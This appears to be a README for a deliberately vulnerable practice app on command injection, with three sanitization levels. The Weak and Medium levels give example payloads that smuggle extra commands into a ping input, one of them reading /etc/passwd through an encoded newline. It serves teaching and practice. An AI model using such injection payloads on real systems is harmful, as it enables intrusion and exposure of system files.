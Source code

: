 # Command Injection

The app is divided into three levels: Weak, Medium, and Strong. Each level introduces progressively stronger input sanitization, making it harder to exploit.

## Command Injection Levels

### 1. Weak Level
- **Description**: This level has no input sanitization, any user input is executed as a system command directly.
- **Exploit Example**:
  ```
  ping 127.0.0.1; ls
  ```

---

### 2. Medium Level
- **Description**: Removed basic dangerous characters like `;`, `&`, and `|`.
- **Exploit Example**:
  ```
  # let's encode \n and
  http://localhost:8000/cmd-injection/cmd_injection?input=ping%20-c%201%20127.0.0.1%0Als
  # or get /etc/passwd content
  http://localhost:8000/cmd-injection/cmd_injection?input=ping%20-c%201%20127.0.0.1%0Acat%20/etc/passwd
  ```

---

### 3. Strong Level
- **Description**: This level applies stricter sanitization, removing dangerous characters like `&&`, `||`, `$()` and more.
- **Exploit Example**:
  Attempting direct injection is highly unlikely to succeed. However, creative bypass methods might still exist.
---
